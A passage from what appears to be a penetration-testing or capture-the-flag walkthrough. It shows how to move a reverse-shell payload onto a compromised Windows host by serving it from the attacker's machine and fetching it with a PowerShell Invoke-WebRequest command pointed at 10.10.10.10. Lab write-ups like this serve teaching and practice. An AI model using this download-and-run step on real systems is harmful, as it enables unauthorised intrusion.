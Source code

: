 Probably, we won’t have write permissions inside system32 folder, so let’s find another location where we can save the payload:

![Untitled](images/Untitled%2022.png)

C:/Windows/Temp seems like a good place to save the payload.

With this powershell command, we can download files: `Invoke-WebRequest <FILE PATH> -OutFile <FILENAME>`

So, first of all, let’s start a http server in our machine:

![Untitled](images/Untitled%2023.png)

Now, we are ready to download it using the powershell script, but we have a simple bash, not a powershell, but we can execute it by using:

`powershell -command " #PasteCodeHere "`

So, the final command is:

`powershell -command "Invoke-WebRequest 10.10.10.10:8000/shell.exe -OutFile shell.exe"`
